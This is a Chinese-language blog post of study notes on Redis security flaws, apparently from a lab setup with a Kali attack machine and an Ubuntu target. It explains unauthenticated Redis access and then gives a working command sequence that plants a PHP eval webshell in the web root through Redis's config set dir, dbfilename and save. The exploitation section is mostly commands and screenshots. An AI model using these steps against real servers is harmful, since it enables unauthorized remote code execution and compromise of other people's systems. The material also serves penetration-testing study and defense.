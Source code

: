 title: Redis漏洞学习笔记
author: bmth
tags:
  - Redis
top_img: 'https://img-blog.csdnimg.cn/d1b206bca79841578a8b1908133e66dc.png'
cover: 'https://img-blog.csdnimg.cn/d1b206bca79841578a8b1908133e66dc.png'
categories:
  - 内网
date: 2022-01-15 20:20:00
---
![](https://img-blog.csdnimg.cn/d1b206bca79841578a8b1908133e66dc.png)
## Redis介绍
REmote DIctionary Server(Redis) 是一个由 Salvatore Sanfilippo 写的 key-value 存储系统，是跨平台的非关系型数据库

Redis 是一个开源的使用 ANSI C 语言编写、遵守 BSD 协议、支持网络、可基于内存、分布式、可选持久性的键值对(Key-Value)存储数据库，并提供多种语言的 API

Redis 通常被称为数据结构服务器，因为值（value）可以是字符串(String)、哈希(Hash)、列表(list)、集合(sets)和有序集合(sorted sets)等类型

`sudo redis-server /etc/redis.conf`
![](https://img-blog.csdnimg.cn/2859751e0693496896ec69794acfd472.png)

## Redis 未授权访问漏洞
漏洞的产生条件有以下两点：
>redis 绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网
没有设置密码认证（一般为空），可以免密码远程登录redis服务

修改`/etc/redis.conf`配置文件：
![](https://img-blog.csdnimg.cn/2f1af31aa37f4b67bbe0ee7d3dae9e9d.png)

然后我们就可以在攻击机kali上使用redis客户端直接无账号成功登录ubuntu上的Redis服务端，并且成功列出服务端redis的信息
`redis-cli -h 192.168.111.133`
![](https://img-blog.csdnimg.cn/eda8ed9d9f154387b835a0a812a38de4.png)

### 利用redis写webshell
利用条件：
>服务端的Redis连接存在未授权，在攻击机上能用redis-cli直接登陆连接，并未登陆验证
开了服务端存在Web服务器，并且知道Web目录的路径（如利用phpinfo，或者错误爆路经），还需要具有文件读写增删改查权限

原理就是在数据库中插入一条Webshell数据，将此Webshell的代码作为value，key值随意，然后通过修改数据库的默认路径为/var/www/html和默认的缓冲文件shell.php，把缓冲的数据保存在文件里，这样就可以在服务器端的/var/www/html下生成一个Webshell

我们可以将`dir`设置为`/var/www/html`目录，将指定本地数据库存放目录设置为`/var/www/html`；将`dbfilename`设置为文件名`shell.php`，即指定本地数据库文件名为`shell.php`；再执行`save`或`bgsave`，则我们就可以写入一个路径为`/var/www/html/shell.php`的Webshell文件
```bash
config set dir /var/www/html
config set dbfilename shell.php
set xxx "\r\n\r\n<?php @eval($_POST[shell]);?>\r\n\r\n"
save
```
`\r\n\r\n` 代表换行的意思，用redis写入文件的会自带一些版本信息，如果不换行可能会导致无法执行
![](https://img-blog.csdnimg.cn/de2edb9fde994a9e967b0af1f3d2f36f.png)
